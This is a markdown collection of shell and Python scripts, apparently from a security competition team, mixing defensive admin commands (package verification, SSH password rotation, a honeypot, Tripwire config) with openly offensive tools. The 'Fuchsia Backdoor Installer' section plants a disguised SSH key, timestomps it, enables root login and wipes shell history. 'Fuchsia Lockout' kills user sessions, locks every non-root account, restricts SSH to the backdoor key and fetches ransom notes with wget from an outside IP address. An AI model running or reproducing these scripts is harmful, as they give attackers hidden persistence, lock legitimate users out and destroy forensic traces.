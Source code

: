 # Scripts

### Quick Commands

* RHEL verify all packages: `rpm -Va`
  * Output only if different, checks perms and hashes
* Debian verify all packages: `debsums`
  * Need to install
* Kill all PTYs that are not yours: `` kill -9 `pgrep '^(bash|sh)' | grep -v $$` ``
* Get established connections: `netstat -tpn 2>/dev/null || netstat -an | grep ESTABLISHED`
* Get listening ports: `netstat -tln 2>/dev/null || netstat -an | grep LISTEN`
* List kernel modules: `lsmod || modinfo`

### Control
* Run command on one host: `ssh <hostname> -l <username> <username> <command>`
  * Username only needed if not `root`
* Run command on all hosts: `pssh -h <hosts_file> -l <default_username> <command>`
  * Username only needed if not `root`
  * If `pssh` command doesn't exist, try `parallel-ssh`
  * `pssh` must be installed before use
* Run command on one host (ansible): `ansible <hostname> -m raw -a "<command>"`
* Run command on all hosts (ansible): `ansible all -m raw -a "<command>"`
* Run ansible playbook: `ansible-playbook name_of_playbook.yml`

### SSH Initial Spray

```
$ sudo apt install sshpass pssh
$ OP=<old_password>
$ NP=<new_password>
$ for i in {1..255}; do sshpass -p "$OP" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=10 <user>@10.X.X.$i "echo -e '$OP\n$NP\n$NP' | passwd" && echo 10.X.X.$i >> success & done
$ sshpass -p "$NP" parallel-ssh -h success -l <user> -t 5 -A "<sudo> /sbin/iptables -I INPUT 1 -p tcp --dport 22 -j ACCEPT && <sudo> /sbin/iptables -I INPUT 2 -j DROP"
```
Notes:
* Change `<user>` to be `root` and any admin user names provided
* Change `10.X.X` to be actual subnet
* Change `1..255` to actually represent range of IP addresses in our environment
* Change `$OP\n$NP\n$NP` to `$NP\n$NP` if <user> == root
* Need manual password change on *BSD, Solaris
* Need manual firewall on OpenSUSE (firewalld), *BSD (PfCTL), and Solaris (ipfilter)

### Copy Keys

```
#!/usr/bin/env bash

while [ true ]
do
    echo "Enter the IP address of the machine:"
    read IP
    echo "What hostname should we resolve to $IP?"
    read HOSTNAME
    ssh-copy-id root@$IP
    echo "$IP $HOSTNAME" | sudo tee -a /etc/hosts
    echo $HOSTNAME | sudo tee -a /etc/servers
    mkdir /servers/$HOSTNAME
    echo -e "All done!\n\n"
done
```

### Mount SSHFS

```
#!/bin/bash

sudo mkdir -p /servers
sudo chown root:toads /servers
sudo chmod 0775 /servers

for s in $(cat /etc/servers); do
  sudo umount /servers/$s #>/dev/null 2>&1 || true
  rmdir /servers/$s #>/dev/null 2>&1 || true
  mkdir /servers/$s
  sshfs -o allow_other,ServerAliveInterval=20,reconnect root@$s:/ /servers/$s
done
```

### Convert ARP entries to static

```
$ arp -an | awk -F' ' '{print $2 $4}' | cut -d'(' -f2 | while IFS=')' read ip mac
> do arp -s $ip $mac
> done
```

### Honeypot (run command on connection)

```
#!/usr/bin/env python
import os, socket, select

ports = [12345, 12346]
socks = []

for p in ports:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("0.0.0.0", p))
    s.listen(5)
    socks.append(s)
    
while True:
    r, w, err = select.select(socks, [], [])
    for s in r:
        c, addr = s.accept()
        c.shutdown(socket.SHUT_RDWR)
        c.close()
        os.system('wall "suspicious connection from IP: " ' + addr[0])
```

### Procedurally Generate Tripwire Configuration

```
for S in `ls /servers`; do
  echo "( rulename = "$S", severity = 100)">>~/twpol.txt
  echo "{">>~/twpol.txt
  for D in `ls /servers/$S | grep -v dev | grep -v srv | grep -v proc`; do
    echo "/servers/$S/$D -> \$(ReadOnly) (recurse = true);">>~/twpol.txt
  done
  echo "}">>~/twpol.txt
done
```

### Fuchsia Backdoor Installer

```
echo "PUBKEY HERE" >> /etc/ssh/ssh_host_rsa2048_key.pub
touch -r /etc/ssh/ssh_host_rsa_key.pub /etc/ssh/ssh_host_rsa2048_key.pub
sed -i 's/\#AuthorizedKeysFile.*/AuthorizedKeysFile .ssh\/authorized_keys \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config
kill -HUP $(pgrep -f `which sshd`)
history -c
echo "" > ~/.bash_history
```


### Fuchsia Lockout

```
who | awk '!/root/{ cmd="/sbin/pkill -KILL -u " $1; system(cmd)}'

echo "Kicked em out!"

cp /etc/passwd /etc/passwd.backup.shad0wfuchsia
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.backup.shad0wfuchsia

echo "User table backed up"

echo "Locking users..."

for USERNAME in `cut -d: -f1 /etc/passwd | grep -v root`
do
  sudo passwd -l $USERNAME
done

echo "All users locked"

# Set authorized keyfile to ONLY backdoor key
sed -i 's/\AuthorizedKeysFile.*/AuthorizedKeysFile \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config

# Disable password authentication
sed -i 's/#PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config

# Remove any existing allowusers directive, replace with root only
sed -i 's/AllowUsers.*/\#/' /etc/ssh/sshd_config
echo -e ' \n' >>/etc/ssh/sshd_config
echo 'AllowUsers root' >> /etc/ssh/sshd_config

sed -i 's/Banner.*/\#/' /etc/ssh/sshd_config
sed -i 's/#Banner.*/\#/' /etc/ssh/sshd_config
echo 'Banner /etc/fuchsia_banner' >> /etc/ssh/sshd_config

echo "SSH Configuration finished"

rm /etc/motd
wget -O /etc/fuchsia_banner http://67.205.157.179/fus-nocolor.txt
wget -O /etc/nologin http://67.205.157.179/fus.txt

echo "Ransom notes installed"

cat >~/unfuck.sh <<EOL
#!/bin/bash

wget -qO - http://67.205.157.179/paid.txt

echo "Reverting changes..."
mv /etc/passwd.backup.shad0wfuchsia /etc/passwd
mv /etc/ssh/sshd_config.backup.shad0wfuchsia /etc/ssh/sshd_config
rm /etc/nologin
echo "" >/etc/fuchsia_banner

for USERNAME in \`cut -d: -f1 /etc/passwd | grep -v root\`
do
  sudo passwd -u $USERNAME
done

echo -e "System configuration restored.\nBye!"
rm -- "\$0"
EOL

kill -HUP $(pgrep -f `which sshd`)

echo "!!!CHANGE THE ROOT PASSWORD"

history -c
echo "" > ~/.bash_history
```

